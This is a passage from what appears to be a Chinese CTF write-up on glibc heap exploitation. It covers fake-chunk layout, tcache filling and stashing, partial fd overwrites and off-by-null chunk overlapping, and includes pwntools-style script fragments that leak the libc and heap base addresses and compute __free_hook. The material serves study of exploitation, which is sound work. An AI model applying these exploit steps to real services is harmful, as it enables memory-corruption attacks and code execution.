 
形成的效果就是上面这张图的样子。其中 chunk A 完成了对 fake chunk 的 size 和 fd，bk 指针的布局。其中 fd 将指向 `&chunk_B - 0x18`并且破坏了 largebin 的 fd，之后我们会修复这个 fd 并使之指向 fake chunk。

由于 fake chunk 的 fd 指向 `&chunk_B - 0x18`，我们希望 chunk B 的 fd 指向 fake chunk。所以我们需要先把它 free 掉再申请回来，然后部分覆写 fd 来实现。

chunk E 存在的意义是抬高堆地址，使之后 leak 堆地址的时候可以全部输出。

在 chunk E 和 chunk C 中夹了一些 chunk，这些 chunk 会被 overlapping，便于之后继续利用了，建议多夹一些，免得后来发现不够用。

chunk C 未来会用来对 chunk D off-by-null，然后 free chunk D 的时候就可以向地址和并了。

---

fake chunk 的 size 已经被修改好，我们不希望在修复 large bin 的 fd 的同时把这个 size 破坏掉，所以必须把 chunk A free 到 fastbin 中。也需要把 chunk B 和 chunk C free 掉，并且希望 chunk B 的 fd 指针指向一个堆地址，部分覆写后就可以使之指向 fake_chunk 了。

```python
for i in range(7):
    add(0x28,'tcache')
for i in range(7):
    delete(61 + 1 + i)

delete(54)
delete(60)
delete(53)

for i in range(7):
    add(0x28,'tcache')

# 53,54,60,62,63,64,65

add(0x28,'\x10') # 53->66
## stashed ##
add(0x28,'\x10') # 54->67
add(0x28,'a' * 0x20 + p64(0x240)) # 60->68
delete(61)
```

就是这样，先把 Tcache 填满，然后依次 free chunk B C A，再把 Tcache 清空，然后申请回 chunk A，部分覆写，使 fd 指向 fake_chunk。

然后由于 Tcache 的 stash 机制，chunk B C 进入 Tcache，再申请回来的就是 chunk B，部分覆写使 fd 指向 fake_chunk。

然后申请回 chunk C，进行 off-by-null。

free chunk D，成功实现 chunk overlapping。

然后进行 leak，需要把堆地址和 libc 地址都 leak 出来，leak 的方法有许多，这里提供一种（这种方法肯定不是最好的方法，但是可以完成 leak 就行）

```
add(0x140,'pass') # 61
show(56)
libc_base = u64(sh.recv(6).ljust(0x8,'\x00')) - libc.sym["__malloc_hook"] - 0x10 - 0x60
log.success("libc_base:" + hex(libc_base))
__free_hook_addr = libc_base + libc.sym["__free_hook"]

add(0x28,'pass') # 69<-56
add(0x28,'pass') # 70<-57
delete(70)
delete(69)
show(56)
heap_base = u64(sh.recv(6).ljust(0x8,'\x00')) - 0x1A0
log.success("heap_base:" + hex(heap_base))
```
